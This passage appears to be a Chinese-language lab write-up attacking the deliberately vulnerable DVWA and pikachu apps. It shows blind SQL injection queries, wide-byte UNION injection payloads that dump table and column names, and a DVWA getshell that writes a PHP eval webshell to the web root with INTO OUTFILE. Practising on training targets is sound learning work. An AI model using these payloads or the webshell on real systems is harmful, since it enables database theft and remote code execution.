+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.001 sec)

MariaDB [dvwa]> select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='username';
+----------+
| count(*) |
+----------+
|        0 |
+----------+
1 row in set (0.002 sec)

MariaDB [dvwa]> select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='password';
+----------+
| count(*) |
+----------+
|        1 |
+----------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='password')=1;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.002 sec)

MariaDB [dvwa]> select user from users limit 0,1;
+-------+
| user  |
+-------+
| admin |
+-------+
1 row in set (0.002 sec)

MariaDB [dvwa]> select substr((select user from users limit 0,1),1,1);
+------------------------------------------------+
| substr((select user from users limit 0,1),1,1) |
+------------------------------------------------+
| a                                              |
+------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select ascii(substr((select user from users limit 0,1),1,1));
+-------------------------------------------------------+
| ascii(substr((select user from users limit 0,1),1,1)) |
+-------------------------------------------------------+
|                                                    97 |
+-------------------------------------------------------+
1 row in set (0.000 sec)

```

#### 4. 利用宽字节注入实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤

a. pikachu中宽字节注入 `kobe運' union select database(),version()#`



b. 爆出表名 `kobe運' union select 1,group_concat(table_name) from information_schema.tables where table_schema =database()#`



c. 爆出member表的字段值 kobe運' union select 1,group_concat(column_name) from information_schema.columns where table_schema =database() and table_name='member'#

这条语句在burp中执行不成功，pikachu中显示 您输入的username不存在，请重新输入！

输入 kobe運' or 1=1# 爆出uid和email



#### 5. 利用 SQL 注入实现 DVWA 站点的 Getshell，写清楚攻击步骤

   a. 先构建一句话木马 <?php eval($_POST['a']);

   a由攻击者自定义关键字，用来接收攻击者输入，攻击者输入的任意字符, 通过post方法传给 eval，eval函数把攻击者的输入解释成php代码执行，用户向a传什么，eval就执行什么，可实现远程执行目的。

   b. 在SQL Injection 中提交 `1' union select 1,"<?php eval($_POST['a']);" into outfile '/var/www/html/test_shell.php`

报错 "Access denied for user 'dvwa'@'localhost' (using password: YES)"

解决方法，给用户dvwa所有权限，

```
MariaDB [(none)]> GRANT all on *.* to dvwa@localhost identified by 'xxxx';
Query OK, 0 rows affected (0.001 sec)
```

test_shell.php 文件由mysql用户写入到/var/www/html/ 目录下了，

```
root@ce51c0404636:/var/www/html# ls -al
total 188
drwxrwxrwx 1 www-data www-data  4096 Oct  1 14:40 .
drwxr-xr-x 1 root     root      4096 Apr  8  2021 ..
-rw-r--r-- 1 www-data www-data    29 Apr  8  2021 .git
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 .github
-rw-r--r-- 1 www-data www-data   229 Apr  8  2021 .gitignore
-rw-r--r-- 1 www-data www-data   500 Apr  8  2021 .htaccess
-rw-r--r-- 1 www-data www-data  7296 Apr  8  2021 CHANGELOG.md
-rw-r--r-- 1 www-data www-data 33107 Apr  8  2021 COPYING.txt
-rw-r--r-- 1 www-data www-data 15460 Apr  8  2021 README.md
-rw-r--r-- 1 www-data www-data  3300 Apr  8  2021 about.php
drwxr-xr-x 1 www-data www-data  4096 Oct  1 14:29 config
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 docs
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 dvwa
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 external
-rw-r--r-- 1 www-data www-data  1406 Apr  8  2021 favicon.ico
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 hackable
-rw-r--r-- 1 www-data www-data   895 Apr  8  2021 ids_log.php
-rw-r--r-- 1 www-data www-data  4118 Apr  8  2021 index.php
-rw-r--r-- 1 www-data www-data  2192 Apr  8  2021 instructions.php
-rw-r--r-- 1 www-data www-data  4183 Apr  8  2021 login.php
-rw-r--r-- 1 www-data www-data   414 Apr  8  2021 logout.php
-rw-r--r-- 1 www-data www-data   154 Apr  8  2021 php.ini
-rw-r--r-- 1 www-data www-data   199 Apr  8  2021 phpinfo.php
-rw-r--r-- 1 www-data www-data    26 Apr  8  2021 robots.txt
-rw-r--r-- 1 www-data www-data  4724 Apr  8  2021 security.php
-rw-r--r-- 1 www-data www-data  3307 Apr  8  2021 setup.php
-rw-rw-rw- 1 mysql    mysql       39 Oct  1 14:40 test_shell.php
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 tests
drwxr-xr-x 1 www-data www-data  4096 Apr  8  2021 vulnerabilities

root@ce51c0404636:/var/www/html# cat test_shell.php
admin admin
1 <?php eval($_POST['a']);
root@ce51c0404636:/var/www/html#
```

   c. 远程输入执行命令phpinfo()






